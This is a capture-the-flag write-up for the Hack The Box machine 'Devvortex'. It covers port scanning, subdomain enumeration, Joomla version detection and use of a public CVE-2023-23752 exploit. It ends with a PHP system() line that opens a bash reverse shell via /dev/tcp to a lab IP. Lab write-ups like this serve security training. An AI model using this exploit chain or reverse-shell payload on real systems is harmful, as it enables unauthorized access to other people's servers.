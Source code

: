 # Devvortex

Scanning ports:

```bash
nmap -Pn -sC -sV -T4 --min-rate=1000
```

<figure><img src=".gitbook/assets/obrazek (32).png" alt=""><figcaption></figcaption></figure>

Adding ip to etc/hosts -> "10.10.11.242 devvortex.htb"



Enumerate directories:



```
gobuster dir -u http://devvortex.htb/ -w /usr/share/wordlists/dirb/small.txt -r 

```

<figure><img src=".gitbook/assets/obrazek.png" alt=""><figcaption></figcaption></figure>

Trying to find VHOST with gobuster:

```
gobuster vhost -u http://devvortex.htb/ -w SecLists/Discovery/DNS/subdomains-top1million-5000.txt -append-domain
```

<figure><img src=".gitbook/assets/obrazek (1).png" alt=""><figcaption><p>Nothing</p></figcaption></figure>

With ffuf we find dev.devvortex.htb -> adding to etc/hosts\
Code:\
gobuster dns -w wordlist\_TLAs.txt -d devvortex.htb\
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -mc 200

<figure><img src=".gitbook/assets/obrazek (2).png" alt=""><figcaption></figcaption></figure>

In the robots.txt we can see Disallow: /administrator/ \


<figure><img src=".gitbook/assets/obrazek (5).png" alt=""><figcaption></figcaption></figure>

Git Repo: [https://github.com/C-Lodder/joomla-version-detect/blob/master/detect.php](https://github.com/C-Lodder/joomla-version-detect/blob/master/detect.php)\
i find url where is joomla.xml and i get Joomla **version 4.2.6.**

<figure><img src=".gitbook/assets/obrazek (6).png" alt=""><figcaption></figcaption></figure>

I find exploit for joomla version <= 4.2.7\
repo: [https://github.com/Acceis/exploit-CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)\
Need to install packages: httpx , docopt, paint

```
gem install httpx docopt paint
```

Then we can run explot and we get:

<figure><img src=".gitbook/assets/obrazek (7).png" alt=""><figcaption></figcaption></figure>

Okey now we can log into dev.devvortex.htb/administrator/\
system('bash -c "bash -i >& /dev/tcp/10.10.14.123/1234 0>&1"');
